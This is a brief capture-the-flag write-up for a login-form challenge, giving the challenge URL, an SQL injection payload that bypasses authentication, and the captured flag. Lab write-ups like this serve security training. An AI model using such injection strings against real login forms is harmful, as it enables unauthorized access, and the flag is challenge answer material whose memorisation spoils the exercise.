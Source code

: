 <h1>Login form | Don't mess with Noemie</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10052/</p>
<h3>Solution</h3>
<p>Payload :</p>
<pre>
Username : ' or 1 or '
Password : bla
</pre>
<h3>Flag</h3>
<pre>
FLAG-Yk3Hfovvb5kALU9hI2545MaY
</pre>
